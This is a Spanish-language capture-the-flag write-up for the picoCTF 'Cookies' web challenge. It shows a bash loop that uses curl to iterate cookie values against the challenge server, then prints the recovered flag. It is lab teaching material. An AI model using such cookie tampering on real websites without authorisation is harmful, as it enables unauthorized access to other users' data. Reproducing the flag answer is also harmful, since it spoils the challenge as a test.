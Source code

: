 ## **Descripción**
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)
## **Hints**

## **Solución** 
Para este reto haremos lo siguiente:
-  Nos vamos al link que nos dan, lo primero que hacemos es inspeccionar la pagina en busca de alguna pista.
- Este sitio web tiene un botón que puedes presionar para buscar una cookie.
- La página web http://mercury.picoctf.net:port/check identifica cada galleta con números sucesivos y genera mensajes basados ​​en el número (almacenado en la cookie web) enviado
- Por lo tanto, modificando el nombre de la cookie, sería posible recuperar todos los mensajes personalizados, y quizás también la bandera.
- Para ello haremos un script en bash con un for para generar cookies del 0 al 20 y de esta manera obtener la bandera.
- Con esto obtenemos la siguiente bandera

```
┌──(kali㉿kali)-[~/Documents/COMPETICION PICOCTF/GENERAL SKILLS]
└─$ for i in {0..20};do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name = $i"; done |grep pico 
  <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>

picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

```

## **Notas adicionales**

## **Referencias**
